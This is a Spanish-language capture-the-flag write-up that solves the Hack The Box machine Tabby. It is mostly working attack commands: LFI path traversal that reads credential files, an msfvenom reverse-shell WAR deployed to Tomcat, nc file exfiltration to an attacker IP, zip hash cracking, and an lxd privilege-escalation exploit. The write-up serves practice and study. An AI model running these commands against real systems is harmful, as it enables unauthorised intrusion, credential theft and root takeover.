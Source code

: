 ```yaml
---
title: HackTheBox - Tabby
categories: [Linux]
tags: [HackTheBox Writeups, eJPT]
---
```


<img src="/assets/HTB/Tabby/tabby.png">

En este post voy a explicar como resolver la máquina Tabby de [Hack The Box](https://app.hackthebox.com/machines/259)

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.25s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos, la página tiene los puertos 22 (SSH), 80 (HTTP) y 8080(HTTP - Tomcat) abiertos.

## Enumeración
Al ingresar al servidor web que está corriendo en el puerto 80, vemos esto.

<img src="/assets/HTB/Tabby/tabby-index-80.png">

Al analizar la página web, vemos que el botón ```News``` nos redirige a ```megahosting.htb``` el cual agregamos a nuestro archivo ```/etc/hosts```.

```
$ echo "10.10.10.194    megahosting.htb" >> /etc/hosts
```

Regresamos nuevamente a la página y vemos que en la URL hay un parámetro llamado ```file```, el cual apunta al archivo ```statement```, posiblemente tenga una vulnerabilidad de ```LFI```.

```
$ curl -s http://megahosting.htb/news.php?file=../../../../etc/passwd | grep "sh$"

root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

Si leemos el archivo '''/etc/passwd''' de la máquina víctima, descubrimos el usuario '''ash'''.

Al ingresar al servidor web que está corriendo en el puerto ```8080```, vemos esto.

<img src="/assets/HTB/Tabby/tabby-index-8080.png">

Analizando la página, vemos que nos habla de un archivo llamado ```tomcat-users.xml```, si lo intentamos visualizar mediante el ```LFi```, no vamos a ver nada, ya que no se encuentra en esa ruta, pero si buscamos rutas alternativas en las cuales se encuentre ese archivo, encontraremos la siguiente ```/usr/share/tomcat9/etc/tomcat-users.xml```

```
$ curl -s http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml | tail -n 2

<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

Si usamos las credenciales obtenidas para logearnos en la ruta ```/manager/html```, nos aparecerá lo siguiente.

<img src="/assets/HTB/Tabby/login-manager-html.png">

Probemos listar las aplicaciones existentes desde terminal haciendo uso de curl y las credenciales anteriormente obtenidas.

```
$ curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list'

OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

Como vemos, podemos listar las ```aplicaciones```, intentemos subir un archivo ```.war``` el cual se encargue de mandarnos una ```reverse shell``` a nuestro equipo, para crearlo vamos a hacer uso de msfvenom.

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -f war -o reverse.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes
Saved as: reverse.war

$ curl -s -u 'tomcat:$3cureP4s5w0rd123!' 'http://10.10.10.194:8080/manager/text/deploy?path=/reverse' --upload-file reverse.war
OK - Deployed application at context path [/reverse]
```

## Reverse Shell

Para ganar acceso a la máquina, nos mandaremos la Reverse Shell haciendo una petición al archivo recién subido.

```
$ curl -X GET 'http://10.10.10.194:8080/reverse/'
```

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 49110
script /dev/null -c bash
Script started, file is /dev/null
tomcat@tabby:/var/lib/tomcat9$ ^Z
[1]  + 4675 suspended  sudo nc -lvnp 443

$ stty raw -echo; fg
[1]  + 4675 continued  sudo nc -lvnp 443
                                        reset xterm

tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
tomcat@tabby:/var/lib/tomcat9$ export SHELL=bash
tomcat@tabby:/var/lib/tomcat9$ stty rows 53 columns 235
```

##  Enumeración del sistema
Enumerando directorios, encontré un archivo comprimido y protegido por contraseña en la ruta ```/var/www/html/files```, el cual se llama ```16162020_backup.zip``` y le pertenece al usuario ```ash```, vamos a traerlo a nuestra máquina para intentar extraer la contraseña mediante un ataque de fuerza bruta haciendo uso de ```zip2john``` y ```john```.


```
$ tomcat@tabby:/var/www/html/files$ cat 16162020_backup.zip | nc 10.10.14.9 6969
```

```
$ nc -lvnp 6969 > 16162020_backup.zip
listening on [any] 6969 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 50784
^C

$ ls
16162020_backup.zip  nmap  reverse.war
```

```
$ zip2john 16162020_backup.zip > hash &>/dev/null
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:00 DONE (2022-12-10 22:00) 1.315g/s 13635Kp/s 13635Kc/s 13635KC/s adornadis..adhi1411
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Al descomprimir el archivo con la contraseña recién obtenida, veremos que no hay gran cosa, pero podemos probar si hay ```reutilización de contraseñas```.

```
tomcat@tabby:/var/www/html/files$ su ash
Password: admin@it
ash@tabby:/var/www/html/files$
```

Al poner el comando ```id```, veremos que estamos en el grupo ```lxd```.

```
ash@tabby:/var/www/html/files$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
## Escalada de privilegios
Si buscamos con la herramienta searchsploit vulnerabilidades para el grupo ```lxd```, veremos que nos lanzara un script creado por S4vitar y Vowkin.

```
$ searchsploit lxd
------------------------------------------------------------------------------
Exploit Title                                          |  Path
------------------------------------------------------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation              | linux/local/46978.sh
------------------------------------------------------------------------------

$ searchsploit -m linux/local/46978.sh
Exploit: Ubuntu 18.04 - 'lxd' Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46978
     Path: /usr/share/exploitdb/exploits/linux/local/46978.sh
    Codes: N/A
 Verified: False
File Type: Bourne-Again shell script, Unicode text, UTF-8 text executable

$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
$ chmod +x build-alpine
$ ./build-alpine
$ python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
```

```
ash@tabby:/var/www/html/files$ cd /dev/shm
ash@tabby:/dev/shm$ curl -s http://10.10.14.9:6969/46978.sh -o lxd.sh
ash@tabby:/dev/shm$ curl http://10.10.14.9:6969/alpine-v3.17-x86_64-20221210_2249.tar.gz -o alpine.tar.gz
ash@tabby:/dev/shm$ chmod +x lxd.sh

ash@tabby:/dev/shm$ ./lxd.sh -f alpine-v3.17-x86_64-20221210_2249.tar.gz
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpine | 761ea182e2d3 | no     | alpine v3.17 (20221210_22:49) | x86_64       | CONTAINER | 3.60MB | Dec 11, 2022 at 2:55am (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
~ # cd /mnt/root/root/
~ # cat root.txt
36b7b242c4b5a18da843964094ee37ad
```